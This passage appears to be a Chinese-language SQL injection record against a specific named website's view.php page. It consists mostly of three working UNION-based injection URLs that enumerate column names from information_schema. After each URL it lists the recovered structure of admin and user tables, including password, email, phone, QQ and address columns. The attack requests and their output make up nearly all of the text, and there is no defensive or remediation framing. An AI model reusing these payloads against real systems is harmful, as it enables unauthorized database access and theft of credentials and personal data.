	id
	gid
	user
	password
	nicename
	regtime
	logintime
	ip
	status
	loginnum
	keep

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x71636D73%20and%20table_name=0x71636D735F61646D696E)%20--

qcms.qcms_admin的表结构:

	id
	admin_name
	admin_password

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x71636D73%20and%20table_name=0x71636D735F7573657273)%20--

qcms.qcms_users的表结构:

	id
	username
	userpwd
	sex
	email
	qq
	tel
	truename
	address
	money

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x71637373%20and%20table_name=0x71636D735F75736572)%20--

qcss.qcms_user的表结钩:

	uid
	username
	password
	sex
	email
	qq
	tel
	address
	money
	add_time
	level

